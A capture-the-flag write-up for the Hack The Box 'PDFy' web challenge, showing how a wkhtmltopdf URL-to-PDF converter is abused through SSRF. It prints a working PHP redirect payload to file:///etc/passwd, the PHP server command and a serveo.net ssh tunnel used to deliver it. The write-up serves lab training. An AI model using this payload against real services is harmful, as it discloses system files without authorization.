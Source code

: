 ```yaml
---
clayout: ctf
title: PDFy
date: 2024-10-22
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: PDFy
      link: https://app.hackthebox.com/challenges/637
      thumbnail: /ctf/hack-the-box/challenges/web/pdfy/pdfy-thumbnail.png
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/637
          thumbnail: /ctf/hack-the-box/challenges/web/pdfy/pwned.png
---
```


## Box description

Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your
chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the
way we save and cherish web content! NOTE: Leak `/etc/passwd` to get the flag!

## Challenge Description

PDFy is a web application that converts a given URL into a PDF document. The challenge is to leverage this functionality
to exploit the system and retrieve the contents of the `/etc/passwd` file.

Here is an example of a PDF generated by the application when using the URL `https://google.com`:

![PDFy - pdf example](/ctf/hack-the-box/challenges/web/pdfy/pdfy-pdf-example.png)

When an invalid URL is provided, the application returns an error message:

```
There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'https://randomrandom', 'application/static/pdfs/319c7764c7ff4a3cb02c5eaa2c9c.pdf']' returned non-zero exit status 1.
```

From this error message, we can infer that the application uses `wkhtmltopdf`, a command-line tool for rendering web
pages into PDFs.

## Vulnerability Analysis

`wkhtmltopdf` is known to be vulnerable to **Server-Side Request Forgery (SSRF)** attacks. SSRF vulnerabilities allow
attackers to make HTTP requests from the server itself, potentially accessing internal resources that are otherwise
inaccessible from the outside.

::: danger
The SSRF vulnerability in `wkhtmltopdf` could lead to severe consequences, including data leakage and unauthorized
access to internal server files.
:::

## Exploitation - SSRF

To exploit the SSRF vulnerability in `wkhtmltopdf`, we need to create a web page that tricks the server into loading and
leaking the `/etc/passwd` file. This is done by embedding a PHP script that redirects to the local file system of the
server.

### Step 1: Create the PHP Script

We first create the following PHP script that redirects the page to `file:///etc/passwd`, forcing the server to load the
file:

```php
<!DOCTYPE html>
<html>
<body>
    <h1>Hello world</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

### Step 2: Host the PHP Script

Next, we host the PHP script on our local machine using the PHP development server:

```bash
php -S 0.0.0.0:8000
```

This allows our machine to serve the PHP script on port 8000.

::: warning
Ensure that your firewall settings allow external connections to the server to make it accessible from the internet.
:::

### Step 3: Expose the Local Server to the Internet

To make the local PHP server accessible from the internet, we use `serveo.net` to create a tunnel that exposes our local
server:

```bash
ssh -R 80:localhost:8000 serveo.net
```

Now, the PHP script can be accessed via a public URL provided by Serveo.

### Step 4: Trigger the SSRF Attack

We submit the Serveo URL (e.g., `http://[serveo-url]/[php-script]`) to the PDFy application’s URL field. When the
application attempts to convert the URL to a PDF, the SSRF vulnerability is triggered, causing the server to follow the
`file:///etc/passwd` redirect.

### Step 5: Capture the Flag

Once the application processes the URL, it retrieves the `/etc/passwd` file. The flag is included in the server's
response, as seen in the PDF output:

![Flag - PDFy](/ctf/hack-the-box/challenges/web/pdfy/pdfy-flag-pdf.png)

With this, we successfully extract the `/etc/passwd` file and capture the flag.

## References

- [Exploit - notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)
- [Serveo.net](https://serveo.net/)
